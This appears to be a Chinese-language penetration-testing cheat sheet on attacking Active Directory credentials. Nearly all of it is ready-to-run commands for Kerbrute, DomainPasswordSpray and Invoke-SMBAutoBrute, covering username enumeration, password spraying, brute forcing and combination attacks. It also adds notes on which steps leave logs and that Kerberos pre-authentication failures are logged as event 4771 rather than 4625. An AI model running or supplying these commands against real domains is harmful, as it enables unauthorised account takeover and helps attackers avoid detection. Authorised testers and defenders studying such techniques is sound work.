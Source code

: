  ### Kerbrute
	https://github.com/ropnop/kerbrute
	用户枚举
	>kerbrute_windows_amd64.exe userenum -d zone.com username.txt
![image](/assets/Pentest_Note/master/img/371.png)

	密码喷射
	>kerbrute_windows_amd64.exe passwordspray -d zone.com use.txt password
![image](/assets/Pentest_Note/master/img/372.png)

	密码爆破
	此项会产生日志
	>kerbrute_windows_amd64.exe bruteuser -d zone.com pass.txt name
![image](/assets/Pentest_Note/master/img/373.png)

	组合爆破
	格式为username:password
	>kerbrute_windows_amd64.exe -d zone.com bruteforce com.txt
 ### DomainPasswordSpray
	https://github.com/dafthack/DomainPasswordSpray
	自动收集账户进行密码喷射
	>Invoke-DomainPasswordSpray -Password pass
![image](/assets/Pentest_Note/master/img/374.png)

	组合爆破
	>Invoke-DomainPasswordSpray -UserList users.txt -Domain zone.com -PasswordList passlist.txt -OutFile result.txt
	会产生日志
	单密码
	>Invoke-DomainPasswordSpray -UserList users.txt -Domain zone.com -Password password
 ### SMBAutoBrute
  	https://github.com/Shellntel/scripts/blob/master/Invoke-SMBAutoBrute.ps1
	>Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
 ### Kerberos 预授权暴力破解
  	Kerberos 预身份验证错误不会以正常登录失败事件 (4625)记录在 Active Directory 中，而是以特定日志记录到Kerberos 预身份验证失败 (4771)
	用户名爆破
	>./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
	密码爆破
	>./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
	密码喷射
	> ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
	> ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
	> ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log